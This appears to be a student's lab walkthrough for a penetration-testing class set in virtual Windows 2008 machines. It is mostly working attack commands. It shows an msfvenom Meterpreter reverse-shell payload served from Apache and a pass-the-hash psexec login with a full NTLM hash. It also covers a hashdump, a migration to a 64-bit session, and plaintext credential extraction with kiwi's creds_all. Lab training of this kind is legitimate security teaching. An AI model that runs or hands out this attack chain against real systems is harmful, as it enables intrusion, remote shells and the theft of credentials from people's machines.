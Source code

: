 1. Download M1 from Google Drive
2. Start:
-Kali2
-2k8dc_a2
-2k8m2_a1

3. On the Kali2 host, set a static IP 192.168.168.110
ifconfig eth0 192.168.168.110
ifconfig eth0 netmask 255.255.255.0

4. Repeat last week’s step's to gain the password hash from M2 (refer to last week's notes). You'll want to grab the 32 characters on one side of the : and the 32 characters afterwards, such as aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9

5. Generating a reverse meterpreter payload within msfvenom (Kali 2):
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.168.110 lport=7477 -f exe -o /var/www/html/payload.exe

#Then don’t forget to start a listener and restart apache

6. Copy password and hash to a text file on the Kali box for reference.
7. Stop the VM 2k8m2_a1
8. Start the VM 2k8m1
9. Determine M1’s IP
10. Perform information gathering and enumeration against M1 with nmap
11. We know the password for M2's local Administrator, let's try it against M1.
12. With SMB open, what can we use to get onto M1?  The psexec module is often used by penetration testers to obtain access to a given system that you already know the credentials for. #It was written by sysinternals and has been integrated within the framework.

#Within msfconsole:
use exploit/windows/smb/psexec
set rhost 192.168.168.101
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9
show options
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.168.110
set lport 7479
exploit

meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
 
meterpreter > sysinfo
Computer        : M1
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
Architecture    : x64 (Current Process is WOW64)
meterpreter > background

13. Move to a 64bit Meterpreter session:
msfconsole> use windows/local/payload_inject 
set payload windows/x64/meterpreter/reverse_tcp 
set session x
set lhost 192.168.168.110
exploit
meterpreter> hashdump

14. Now try getting the password in plaintext. If for some reason you don’t see Alice’s password within a 64 bit Meterpreter shell, you need to delete the M1 virtual and re-extract the zip file or redownload it from Google Drive. Remember, interactive logins are wiped from memory when the system restarts!
meterpreter> load kiwi
meterpreter> help
meterpreter> creds_all

